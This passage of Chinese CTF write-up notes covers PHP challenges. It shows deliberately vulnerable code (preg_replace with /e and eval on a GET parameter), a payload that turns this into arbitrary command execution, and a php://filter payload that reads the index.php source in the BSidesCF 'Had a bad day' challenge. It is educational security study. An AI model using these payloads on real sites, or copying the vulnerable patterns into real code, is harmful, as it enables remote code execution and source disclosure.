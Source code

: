 ```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}

foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}
```

将传参设置为\\S*以此来匹配后面传入的函数

- pyload:?\S*=${getFlag()}&cmd=system('ls /');

可以任意命令执行了


### [WMCTF2020]Web Check in 2.0

[WMctf2020 Checkin出题想法&题解](https://cyc1e183.github.io/2020/08/04/WMctf2020-Checkin%E5%87%BA%E9%A2%98%E6%83%B3%E6%B3%95-%E9%A2%98%E8%A7%A3/)

## php伪协议的嵌套绕过对路径内容要求

### [BSidesCF 2020]Had a bad day

在传参的地方伪协议读index.php源码

?category=php://filter/convert.base64-encode/resource=index

```php
<html>
  <head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="description" content="Images that spark joy">
    <meta name="viewport" content="width=device-width, initial-scale=1.0, minimum-scale=1.0">
    <title>Had a bad day?</title>
    <link rel="stylesheet" href="css/material.min.css">
    <link rel="stylesheet" href="css/style.css">
  </head>
  <body>
    <div class="page-layout mdl-layout mdl-layout--fixed-header mdl-js-layout mdl-color--grey-100">
      <header class="page-header mdl-layout__header mdl-layout__header--scroll mdl-color--grey-100 mdl-color-text--grey-800">
        <div class="mdl-layout__header-row">
          <span class="mdl-layout-title">Had a bad day?</span>
          <div class="mdl-layout-spacer"></div>
        <div>
      </header>
      <div class="page-ribbon"></div>
      <main class="page-main mdl-layout__content">
        <div class="page-container mdl-grid">
          <div class="mdl-cell mdl-cell--2-col mdl-cell--hide-tablet mdl-cell--hide-phone"></div>
```